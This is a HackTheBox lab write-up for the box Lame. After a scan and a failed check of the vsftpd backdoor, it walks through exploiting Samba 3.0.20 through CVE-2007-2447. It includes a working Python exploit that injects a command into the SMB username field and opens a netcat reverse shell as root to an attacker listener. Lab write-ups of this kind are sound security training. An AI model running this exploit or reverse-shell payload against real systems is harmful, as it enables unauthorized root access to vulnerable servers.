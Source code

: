 ```yaml
---
layout: post
title: HackTheBox&#58; Lame
description: Writeup for HTB box Lame.
category: HackTheBox
---
```


### Introduction

Lame is a Linux box, difficulty Easy on HTB.
It is the first box ever created on HTB.

Just like the name suggests, it is very easy, using old Samba exploit to get root shell directly.

### Initial Scan

![Lame-1](/resources/Lame-1.png)

### FTP

We see vsftpd 2.3.4 running on the server.
It has [a well-known backdoor](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html).
However a quick test using telnet shows no result, which means the server is likely not vulnerable.
Anonymous login also shows us no files.

### Samba

From nmap results, we know that the machine is running Samba version 3.0.20.
searchsploit gets a hit with 1 Metasploit module: [CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447).

The vulnerability affects all versions from 3.0.0 to 3.0.25rc3.
Since we are trying to avoid using Metasploit, we can quickly write an exploit script based on the Ruby script.

```Python
from smb.SMBConnection import SMBConnection

LHOST, LPORT = "10.10.14.25", 1337
RHOST, RPORT = "10.10.10.3", 139

def main():
    payload = "nc -e /bin/sh {} {}".format(LHOST, LPORT)
    username = "/-`nohup {}`".format(payload)
    try:
        smb = SMBConnection(username, "", "", "", "")
        smb.connect(RHOST, RPORT)
        print "[+] Payload sent."
    except Exception as e:
        print "[-] Something went wrong."
        print "[-] Error: {}".format(e)

if __name__ == "__main__":
    main()
```

![Lame-2](/resources/Lame-2.png)

We get reverse shell as root immediately and we can read both user.txt and root.txt.
